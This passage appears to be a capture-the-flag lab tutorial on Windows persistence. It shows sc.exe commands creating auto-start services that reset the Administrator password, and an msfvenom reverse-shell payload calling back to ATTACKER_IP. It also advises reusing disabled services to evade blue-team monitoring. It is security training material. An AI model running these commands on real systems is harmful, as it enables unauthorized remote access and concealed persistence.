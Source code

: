 There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```



Note: There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to Passwd123. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the exe-service format in msfvenom:

```

AttackBox

user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe

        


```
You can then copy the executable to your target system, say in C:\Windows and point the service's binPath to it:

```
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

	This should create a connection back to your attacker's machine.
	THM flagUse the reverse shell you just gained to execute C:\flags\flag7.exe

Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

```

Command Prompt

C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

        
```